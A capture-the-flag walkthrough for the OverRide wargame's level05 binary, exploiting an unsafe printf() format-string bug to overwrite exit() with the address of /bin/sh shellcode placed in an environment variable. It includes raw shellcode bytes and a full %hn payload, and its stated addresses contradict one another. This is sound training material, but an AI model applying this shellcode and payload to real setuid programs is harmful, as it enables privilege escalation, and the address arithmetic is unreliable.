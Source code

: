 Level05 protections:
```Shell
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```

Level05 rights:
```Shell
level05@OverRide:~$ ls -la level05 
-rwsr-s---+ 1 level06 users 5176 Sep 10  2016 level05
```

Testing the binary:
```Shell
level05@OverRide:~$ ./level05
COUCOU
coucou
```

Decompiling with Hex-Rays on https://dogbolt.org/ shows three things:
- the program converts input from uppercase to lowercase, if it's part of the ASCII table
- a format string attack is possible because of an unsafe `printf()` call
- the program ends with a call to `exit()`.

Our solution will consist of storing a shellcode inside an environment variable and overwrite `exit()` with its address. We need to export the shellcode, otherwise any values corresponding to an uppercase letter in ASCII will be modified by the program. So the goal is to use the `%n` specifier, with which we will send the address of the environment variable as a decimal number and store it inside the `exit()` call.

First, let's export our shellcode:
```Shell
export SHELLCODE=`python -c 'print("\x90" * 100 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")'`
```

Now, let's retrieve the address of a random NOP instruction inside our environment variable:
```Shell
(gdb) x/s *((char **)environ)
0xffffd872:      "SHELLCODE=[...]
```

Writing the address in one go is impossible because it exceeds the capacity of an `int`, therefore crashing `%d` and `%n` (as `%n` takes an `*int` as argument). We are forced to divide it and store each part in a `short int`, aka `%hn`.
So our payload will consist in:
[first two bytes of the address of `exit()`] + [last two bytes of the address of `exit()`] (reversed to little endian)
and then
%[last bytes of the address of our shellcode in decimal]d + %[the index on the stack]$hn + %[first bytes of the address of our shellcode in decimal]d + %[the index on the stack]$hn
```Shell
(python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55414d" + "%10$hn" + "%10113d" + "%11$hn")'; cat) | ./level05
```

The address of the environment variable storing our shellcode is 0xffffd8d6, we will add 12 (0xffffd87e) to be sure this address correspond to a NOP instruction, which gives us, in decimal:
ffff = 65535 / d87e = 55422
Since we're in little endian, we start with `d87e`, minus 8 (because of the 8 bytes of the address of `exit()`): 55414.
Then, for `ffff` minus 8 and minus 55414, so we get: 10113.
We will place each value next to each other on the stack, therefore they will be placed at index 10 and index 11, respectively.